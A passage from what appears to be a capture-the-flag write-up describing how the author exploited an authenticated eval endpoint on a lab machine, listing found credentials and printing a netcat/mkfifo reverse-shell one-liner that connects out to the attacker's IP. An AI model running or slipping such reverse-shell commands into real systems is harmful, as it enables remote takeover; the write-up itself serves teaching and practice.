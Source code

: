 ![Img](images/gogs6.png)

#### Exploiting the API

As the vulnerable code which executed eval needed authentication I came up with the following strategy:

1. With the credentials found before `dinesh:4aUh0A8PbVJxgd`, authenticate on `/auth/login` and get a token.
2. Call the function that executes the vulnerable eval function under `/api/brew`.
3. Use that eval function to get a reverse shell.

I had trouble getting a shell that worked but I finally found this one:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 8080 >/tmp/f
```

To automate all the boring process I wrote a quick bash script to do everything for me, I just needed to run the script and set up a netcat listener to get the connection:

*Getting a reverse shell*

![Img](images/reverse.png)
